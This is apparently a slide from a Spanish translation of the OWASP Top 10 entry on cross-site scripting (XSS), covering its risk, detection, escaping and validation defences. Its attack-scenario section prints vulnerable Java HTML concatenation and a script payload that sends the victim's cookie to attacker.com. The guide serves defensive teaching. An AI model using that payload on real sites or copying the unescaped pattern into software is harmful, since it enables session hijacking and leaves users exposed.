

A2
# Secuencia de Comandos en Sitios Cruzados (XSS)
|  |  |  |  |  |  |
| --- | --- | --- | --- | --- | --- |
| \_\_\_\_\_\_\_\_\_\_ | Explotación MEDIA | Prevalencia MUY DIFUNDIDA | Detección FACIL | Impacto MODERADO | \_\_\_\_\_\_\_\_\_\_ |
| Considerar cualquier persona que pueda enviar datos no confiables al sistema, incluyendo usuarios externos, internos y administradores. | El atacante envía simples cadenas de texto que explotan la sintaxis del interprete atacado. Casi cualquier fuente de datos puede ser un vector de inyección, incluyendo fuentes internas tales como datos de la base de datos. | XSS es la falla de seguridad mas prevalente en aplicaciones web. Las fallas XSS ocurren cuando una aplicación incluye datos suministrados por el usuario en una pagina enviada al navegador sin ser el contenido apropiadamente validado o escapado. Existen tres tipos conocidos de fallas XSS: 1) Almacenados, 2) Reflejados, and 3) XSS basado en DOM. La detección de la mayoría de las fallas XSS es relativamente fácil a través de pruebas análisis de código. |  | Los atacantes pueden ejecutar secuencias de comandos en el navegador de una victima para secuestrar las sesiones de usuario, destruir sitios web, insertar código hostil, redirigir usuarios, instalar código malicioso en el navegador de la victima, etc. | Considerar el valor de negocio de los datos afectados o funciones de la aplicación. También considere el impacto en el negocio la exposición pública de la vulnerabilidad. |

 Impactos
Técnicos
Impactos en
el negocio

           Deficiencias
de Seguridad
    Vectores
de Ataque
Agentes
de amenaza
¿Soy Vulnerable?
Es necesario asegurarse que todos los datos de entrada suministrados por el usuario enviados al navegador sean seguros (a través de validación de entradas), y que las entradas de usuario sean apropiadamente escapadas antes de que sean incluidas en la pagina de salida. Una apropiada codificación de salida asegura que los datos de entrada sean siempre tratados como texto en el navegador, en lugar de contenido activo que puede ser ejecutado.
Tanto las herramientas estáticas como dinámicas pueden encontrar algunos problemas de XSS automáticamente. Sin embargo, cada aplicación construye las paginas de salida diferentemente y utiliza diferentes interpretes tales como JavaScript, ActiveX, Flash, y Silverlight, lo que dificulta la detección automática. Por lo tanto, una cobertura completa requiere una combinación de revisión manual de código y testeo manual de penetración, además de cualquier testeo automático en uso.
Tecnologías Web 2.0, tales como AJAX, dificultan la detección de XSS a través de herramientas automatizadas.
¿Como puedo evitar esto?
Prevenir XSS requiere mantener los datos no confiables separados del contenido activo del navegador.
La opción preferida es escapar todos los datos no confiables basados en el contexto HTML (cuerpo, atributo, JavaScript, CSS, o URL) donde los mismos serán ubicados. Los desarrolladores necesitan incluir esta técnica en sus aplicaciones al menos que el marco UI lo realice por ellos. Ver la Hoja de Trucos de Prevencion XSS para mayor información sobre técnicas de escape de datos.
Una validación de entradas positiva o “whitelist” con apropiada canonicalización y decodificación es también recomendable ya que ayuda a proteger contra XSS, pero no es una defensa completa ya que muchas aplicaciones requieren caracteres especiales en sus entradas. Tal validación debería, tanto como sea posible, decodificar cualquier entrada codificada, y luego validar la longitud, caracteres, formato, y cualquier regla de negocio en dichos datos antes de aceptar la entrada.
Ejemplos de escenarios de ataque
La aplicación utiliza datos no confiables en la construcción del siguiente código HTML sin validar o escapar los datos:
  (String) page += "<input name='creditcard' type='TEXT‘
  value='" + request.getParameter("CC") + "'>";
El atacante modifica el parámetro ‘CC’ en el navegador:
  '><script>document.location=
  'http://www.attacker.com/cgi-bin/cookie.cgi?
  foo='+document.cookie</script>'.
Esto causa que el identificador de sesión de la victima sea enviado al sitio web del atacante, permitiendo al atacante secuestrar la sesión actual del usuario. Notar que los atacantes pueden también utilizar XSS para anular cualquier defensa CSRF que la aplicación pueda utilizar. Ver A5 para información sobre CSRF.
Referencias
OWASP
 OWASP XSS Prevention Cheat Sheet
 OWASP Cross-Site Scripting Article
 ESAPI Project Home Page
 ESAPI Encoder API
 ASVS: Output Encoding/Escaping Requirements (V6)
 ASVS: Input Validation Requirements (V5)
 Testing Guide: 1st 3 Chapters on Data Validation Testing
 OWASP Code Review Guide: Chapter on XSS Review
Externas
 CWE Entry 79 on Cross-Site Scripting
 RSnake’s XSS Attack Cheat Sheet